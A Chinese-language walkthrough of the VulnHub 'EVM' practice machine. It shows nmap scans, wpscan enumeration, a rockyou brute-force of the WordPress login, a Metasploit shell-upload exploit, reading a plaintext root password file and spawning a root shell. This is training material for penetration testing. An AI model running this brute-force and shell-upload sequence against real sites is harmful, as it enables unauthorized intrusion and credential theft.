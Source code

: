 # EVM

## 一、描述

```text
VM名称：EVM
下载（镜像）：https://www.vulnhub.com/entry/evm-1,391
描述：这是超级友好的盒子
```

## 二、开始训练

环境开启正常

![image-20210309101151536](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309101151536.png)

使用nmap进行子网扫描

```text
nmap 192.168.1.238/24
```

![image-20210309104131719](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309104131719.png)

成功发现靶机iP

尝试访问

![image-20210309104501729](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309104501729.png)

使用nmap对这个IP进行详细扫描

```text
nmap -A 192.168.1.234
```

![image-20210309104730184](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309104730184.png)

![image-20210309104749471](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309104749471.png)

没什么有用的信息

回到网页

![image-20210309115209456](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309115209456.png)

发现一句提醒，该网站似乎有wordpress框架

在kali中使用wpscan对该网站进行扫描

```text
wpscan --url http://192.168.1.234/wordpress -e ap -e at -e u
```

![image-20210309115648944](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309115648944.png)

![image-20210309115731786](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309115731786.png)

使用工具爆破密码

```text
wpscan --url http://192.168.1.234/wordpress -U c0rrupt3d_brain -P /usr/share/wordlists/rockyou.txt
```

> 初始状态下的rockyou.txt是被压缩的状态，可以在root权限下使用以下命令解压

```text
gunzip rockyou.txt.gz
```

![image-20210309120455768](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309120455768.png)

爆破中......

![image-20210309120656786](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309120656786.png)

爆破出密码为

```text
24992499
```

接下来我们可以使用Metasploit的内置wordpress漏洞。

首先，通过输入以下命令启动Metasploit

```text
msfconsole
```

然后依次输入以下命令：

```text
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RhOSTS 192.168.1.234
set USERNAME c0rrupt3d_brain
set PassWORD 24992499
set targeturi /wordpress
run
```

![image-20210309121106040](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309121106040.png)

![image-20210309121121357](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309121121357.png)

这时我们就成功的拿到了标准shell

进入home目录下查找用户文件夹，发现有一个root3r的目录，进入之后发现有一个.root\_password.ssh.txt的文件

![image-20210309121354499](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309121354499.png)

我们使用cat命令查看此文件

```text
cat.root_password.ssh.txt
```

![image-20210309121609925](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309121609925.png)

得到了SSH的密码

> 从python命令提示符到交互式shell：import pty pty.spawn\(“/bin/bash”\)

使用Python模拟交互式终端

```text
shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

![image-20210309122326694](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309122326694.png)

获得root权限

```text
su root
willy26
```

![image-20210309122522473](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309122522473.png)

进入root目录下，发现proof.txt文件

使用cat命令查看

```text
voila you have successfully pwned me :) !!!
:D
```

![image-20210309122741033](https://gitee.com/YiGaoyu/pic_repo/raw/master/image-20210309122741033.png)

靶机训练结束

